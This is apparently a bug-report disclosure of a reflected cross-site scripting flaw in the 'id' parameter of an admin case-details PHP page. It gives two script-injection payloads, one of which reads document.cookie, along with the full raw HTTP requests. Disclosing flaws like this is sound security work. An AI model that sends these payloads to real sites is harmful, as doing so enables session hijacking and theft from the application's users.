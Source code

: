 BUG_Author:Derek_Zhang

Vulnerability File: /ghpolice/admin/casedetails.php

GET parameter 'id' exists XSS vulnerability

Payload1:id="><script>alert(233)</script>&status=Completed

```
GET /ghpolice/admin/casedetails.php?id=%22%3E%3Cscript%3Ealert(233)%3C/script%3E&status=Completed HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=30di1kr94iks5mnf9ufm2uuh2f
Connection: close
```

![image](https://github.com/fillorkill/bug_report/blob/main/picture/xss1.png)

Payload2:id="><script>alert(document.cookie)</script>&status=Completed

```
GET /ghpolice/admin/casedetails.php?id=%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E&status=Completed HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=30di1kr94iks5mnf9ufm2uuh2f
Connection: close
```

![image](https://github.com/fillorkill/bug_report/blob/main/picture/xss2.png)
